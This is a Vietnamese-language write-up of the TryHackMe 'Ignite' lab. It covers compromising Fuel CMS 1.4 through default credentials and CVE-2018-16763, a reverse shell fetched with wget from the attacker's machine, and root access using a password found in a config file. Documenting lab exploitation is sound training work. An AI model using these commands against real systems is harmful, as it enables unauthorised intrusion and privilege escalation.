 # [THM] Ignite write-up

- IP: 10.10.84.37

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.84.37

![Nmap scan](./img/nmap-scan.png)

Có 1 port dịch vụ đang mở 
- Port 80 chạy dịch vụ 

Giao diện trang web

![Web interface](./img/web-interface.png)

Thông qua giao diện web trên ta xác định được trang web dùng Fuel CMS version 1.4. Tiếp tục scan thư mục ẩn với công cụ ffuf
> ffuf -u "http://10.10.84.37/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![Ffuf scan](./img/ffuf-scan.png)

Sau khi khám phá các thư mục ẩn trên hầu hết không có gì đặc biệt ngoại trừ tệp `robots.txt`. Dựa vào nội dung tệp đó ta thử truy cập `/fuel` thì ra trang login

![Login interface](./img/login-interface.png)

## Exploit

Và thử đăng nhập với tài khoản defaul có `username:admin` và `password:admin` ta đã truy cập được vào dashboard. Khám phá và nhận ra có thể upload nhưng khi thử upload reverse shell đã bị từ chối chắc có lẽ nó đã được filter định dạng file

![Upload test](./img/upload-test.png)

Đã thử và nhận ra không thể tấn công bằng cách này. Vậy còn thông tin về CMS mà page đang sử dụng liệu nó có lỗ hổng nào đã được tìm thấy trước đây không? 
Sau khi tìm kiếm thông tin thì có thể thấy ở version CMS này có thể tấn công thông qua **CVE-2018-16763**

Tìm kiếm PoC và thực hiện tấn công. File exploit đã được chỉnh sửa ở bên dưới. Bởi vì sẽ không sử dụng proxy (burp hoặc bất kỳ phần mềm proxy nào khác) nên hãy chú thích mã proxy trong phần khai thác.

Thực thi mã và đã nhận được shell 

![Shell](./img/shell.png)

Tận dụng việc này ta sẽ chèn revese shell. Ta có thể truy cập [revshell](https://www.revshells.com/) để tạo bash reverse shell

![Reverse shell](./img/revese-shell.png)

Tạo tệp `revshell.sh` trên máy attacker chứa revere shell sau đó chạy lệnh `python3 -m http.server 80` và tiếp theo trên shell mục tiêu ta sẽ download file shell về với câu lệnh `wget http://10.21.113.26/revshell.sh` và cấp quyền với câu lệnh `chmod +x revshell.sh`. Cuối cùng sẽ tạo **netcat listener** trên máy attacker và trên shell chạy lệnh `bash revshell.sh`

## user.txt
Sau khi truy cập được shell ta thực hiện tìm kiếm user flag

![User flag](./img/user-flag.png)

## Privilege escalation
Kiểm tra user này có thể thực hiện câu lệnh nào với quyền root mà không cần mật khẩu hay không. Nhưng rất tiếc là không có

![Sudo -l](./img/sudo-l.png)

Chợt nhớ ra khi truy cập trang web nhận thấy một số hướng dẫn liên quan tới cấu hình cơ sở dữ liệu trên trang web.

![Database](./img/database.png)

Sau khi kiểm tra file config ta đã có mật khẩu của root

![Root pass](./img/root-pass.png)

Cần chạy thêm câu lệnh `python3 -c "import pty;pty.spawn('/bin/bash')"` bởi vì **su: must be run from a terminal**

## root.txt
![Root flag](./img/root-flag.png)